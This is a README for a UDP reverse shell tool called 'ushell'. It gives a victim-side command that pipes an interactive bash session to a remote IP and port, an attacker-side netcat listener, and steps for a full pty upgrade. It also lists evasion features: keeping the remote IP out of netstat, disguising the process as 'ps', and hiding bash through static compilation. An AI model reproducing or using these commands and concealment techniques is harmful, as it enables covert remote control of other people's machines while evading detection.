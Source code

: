 # motivation
want to implenment a udp reverse shell with full shell property(support pty/tab/arrow..) and high degree of concealment.

# compile
make

# usage
## victim 
mkfifo fifo;./ushell -u 192.168.74.187 4443 < fifo | ./ushell -p bash -i >& fifo

## attacker
nc -ulvp 4443

# support tab/arrow/ctrl-c
ctrl-z //return to host  
stty raw -echo  
fg //return to shell  
reset  
// make beautiful  
export SHELL=**  
export TERM=**  
stty rows ** columns **   

# key property
+ udp socket without connect(thus hide remote ip from netstat)
+ cmd line hide as "ps"(thus hide remote ip from cmd line)
+ use forkpty() to provide a pty terminal
+ (dir /optinal) static compile bash to hide bash from cmd line

# other
we can also compile a bash staticly and hide its cmd line 
